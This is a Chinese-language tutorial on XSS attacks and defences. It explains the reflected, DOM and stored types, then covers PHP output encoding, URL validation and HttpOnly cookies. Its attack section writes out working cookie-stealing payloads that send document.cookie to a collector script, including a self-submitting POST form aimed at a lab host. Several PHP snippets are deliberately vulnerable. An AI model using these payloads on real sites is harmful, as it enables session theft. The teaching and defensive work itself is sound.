

- [XSS攻击如何产生？](#xss攻击如何产生)
- [主要类型以及原理？](#主要类型以及原理)
- [XSS危害](#xss危害)
- [利用XSS进行攻击活动](#利用xss进行攻击活动)
- [如何防护](#如何防护)


## XSS攻击如何产生？

黑客在你的浏览器中插入一段恶意 JavaScript 脚本，窃取你的隐私信息、冒充你的身份进行操作。这就是 XSS 攻击(Cross-Site Scripting，跨站脚本攻击)

因为浏览器无法区分脚本是被恶意注入的还是正常的内容，它都会执行，况且 HTML 非常灵活，可以在任何时候对它进行修改。

XSS漏洞的核心就是，网页执行了构造的恶意脚本。至于如何让网页执行，就是XSS漏洞的挖掘点。网页的内容一般都是由后端服务器发送过来，一般来说后端服务器接收前端请求，执行一些操作，再返回数据到前端进行展示。

返回的数据有两种来源：

第一种：前端发送过来的，后端进行了一些操作，再发回前端（可能增加、减少数据）
--》这种情况就有可能产生**反射型XSS**

第二种：与数据库交互，从数据库中读取数据到前端显示。
--》这种情况就有可能产生**存储型XSS**（前提是已经将恶意payload写入数据库）

因此对于XSS漏洞的防护就可以从两个角度进行：
- 对输入进行过滤（）
- 对输出进行转义

## 主要类型以及原理？
- 反射型
  - 顾名思义，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又将这部分返回给用户，恶意脚本在页面中被执行。一般发生在前后端一体的应用中，服务端逻辑会改变最终的网页代码。
    eg: ?input=<script>alert(1)</script>
  - 

- DOM型
  - 目前更流行前后端分离的项目，反射型 XSS 无用武之地。 但这种攻击不需要经过服务器，我们知道，网页本身的 JavaScript 也是可以改变 HTML 的，黑客正是利用这一点来实现插入恶意脚本。
  - 


- 存储型
  - 又叫持久型 XSS，顾名思义，黑客将恶意 JavaScript 脚本长期保存在服务端数据库中，用户一旦访问相关页面数据，恶意脚本就会被执行。常见于搜索、微博、社区贴吧评论等。
  - 


## XSS危害

！！因为XSS借助于构造JS脚本实现，所以任何使用JS可以实现的事情都可以通过XSS实现。 
- 通过 document.cookie盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 利用XSS进行攻击活动
攻击payload的制作分两种类型：
- **Get型 ** 
  构造恶意链接中带有参数

>eg:`http://**.**.**/pikachu/vul/xss/xss_reflected_get.php?message=test&submit=submit`
>
>message的内容会在页面上显示，所以可以在message参数值中构造js语句执行一些恶意操作
>
>eg:`<script>document.location = 'http://**.**.**/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`   盗取cookie值


- **Post型 ** 
需要构造一个页面，页面中包含表单，提交表单数据形成post请求

页面中包含一个表单，表单的请求地址是存在XSS漏洞的页面地址。
post提交的内容是恶意内容，value值。
表单请求执行结果返回到xss_reflected_post.php，触发执行value中的内容。

```html
<html> 
  <head> 
    <script>window.onload = function() {  document.getElementById("postsubmit").click();}</script> 
  </head> 
  <body> 
    <form method="post" action="http://10.201.164.32/pikachu/vul/xss/xsspost/xss_reflected_post.php">     
      <input id="xssr_in" type="text" name="message" value="<script>document.location = 'http://10.201.164.32/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;  </script>"/>     
      <input id="postsubmit" type="submit" name="submit" value="submit" /> 
    </form> 
  </body> 
</html>
```


## 如何防护
根据恶意内容在浏览器上显示的位置不同划分：

1. html普通标签位置输出
   
   将内容输出到`<div> <p> `等html中常见的标签中，当作标签的内容显示。
  -->直接使用htmlspecialchars实体编码即可
   eg:
      ```php
      $div=$_GET['div'];
      //解决方法：
      // $div .= htmlspecialchars($_GET['div'],ENT_QUOTES);  
      <div>
        <?php echo $div;?>
      <div>
      ```
   
   

2. 普通标签的普通属性
   
   如输出到input的value属性值
  -->直接使用htmlspecialchars实体编码即可
   ```php
    $msg .= $_GET['msg'];
      //    防范措施:html实体编码
      //    $msg .= htmlspecialchars($_GET['msg'],ENT_QUOTES);
    <form>
      <input name="msg" value="<?php echo $msg;?>">
    </form>
   ```

3. 输出在事件属性中

  输出位置在标签的事件属性中，如onmouseover
  -->
  ```php

    <form>
      <input type="button" value="submit" onmouseover="init('<?php echo $in;?>')">
    </form>
  ```

4. 输出在特殊的属性中

  如a标签的href属性
  --> 按输入的内容的合法格式进行正则匹配，检查是否是url，再进行html实体编码

  a标签中href属性支持javascript:伪代码执行
  
  ```php
  function check_url($url){
    if (preg_match('/\Ahttp:/',$url) || preg_match('/\Ahttps:/',$url) || preg_match('#\A/#',$url)){
        return true;
    }else{
        return false;
    }
  }
  if (isset($_GET['url'])){
    $url .= htmlspecialchars($_GET['url'],ENT_QUOTES);
  }
  
  <a href="<?php echo $url;?>">www.google.com</a>

  ```

5. 输出点在js中

  输出内容在一段js代码中
  -->转义函数:所有的字符串,除字母,数字,.号,-号外的其他全部进行转义为unicode(utf-8是unicode的一种实现),unicode可以在js中可以被正常解析使用,所有的转义操作在后台进行后输出到前台。
    注意：js本身不解析html实体字符
  
  ```php
  //转换字符的编码
  function unicode_escape($str){
      $u16 = mb_convert_encoding($str[0],'UTF-16');
      return preg_replace('/[0-9a-f]{4}/','\u$0',bin2hex($u16));
  }
  //将字母和数字还有.-排除后的剩下的字符全部\uXXXX的unicode的形式进行转义
  //搜索一个正则,并使用指定的回调函数进行callback
  function escape_js_string($input){
      return preg_replace_callback('/[^-\.0-9a-zA-Z]+/u','unicode_escape',$input);
  }

  <script type="text/javascript">
    function init() {}

    // 005-输出点在js中,构造闭合，即可，payload:xx';alert(1);//
    var echoxy = '<?php echo $name;?>';
    //    alert(echoxy);
    if (echoxy === '>中国'){
        alert("比较成功,你的编码杠杠的~");

    }


</script>
  
  ```


总体思路:对用户输入进行过滤,对输出进行编码;

1. 对用户输入进行XSS防御方式有2种:
   
   基于黑名单的过滤和基于白名单的过滤. 而白名单相对来说更安全;
   
   黑名单:只规定哪些数据不能被输入,很可能被绕过;比如对 '  "   <> 等进行过滤
   
   白名单:只定义哪些数据正常才能被提交;

2. 设置http-only参数为true,这样JS就不能读取cookie信息了;(特殊常见可能被绕过)
   
   Cookie使用过程：
   
    Step1：浏览器向服务器发起请求，这时没有Cookie。
   
    Step2：服务器返回时发送Set-Cookie头，向客户端浏览器写入Cookie。
   
    Step3：在该Cookie到期前，浏览器访问该域下的所有页面，都将发送该Cookie。
    HTTPOnly是在Set-Cookie时被标记的。服务器可能会设置多个Cookie（多个key-value对），而HttpOnly可以有选择性地加在任何一个Cookie值上。在某些时候，应用可能需要JavaScript访问某几项Cookie，这种Cookie可以不设置HttpOnly标记；而仅把HttpOnly标记给用于认证的关键Cookie。

3. 使用一些函数进行防御

  * htmlspecialchars()：将输入内容转换成HTML实体
  	* &--》&amp 

  	* “  --》&quot

  	* ’  --》&#039

  	* < --》&lt

  	* > --》&gt

  * htmlentities()：把特殊字符转换成HTML实体
  
  	* '  "  &
  * strip_tags()：自动去掉字符中的标签
      	* eg:<script>alert(document.cookie);</script>--->alert(document.cookie)

   使用这种方式，链接跳转也有可能出现XSS

   即标签的href、src等属性中，包含javascript:等可执行代码

   另外，style的属性中：
   background-image:url("javascript:....")

   expression(js代码)
   这两种也有可能导致xss，但目前已被浏览器修复。
   eg：<a href="javascript:alert(&#x27;XSS;&#x27)"></a>(单引号被html编码)

   当用户点击该链接时仍会弹出xss

   需要检验其内容，禁止以javascript:开头的链接或者其他非法的scheme

4. 不要随意打开一些来历不明的网站或链接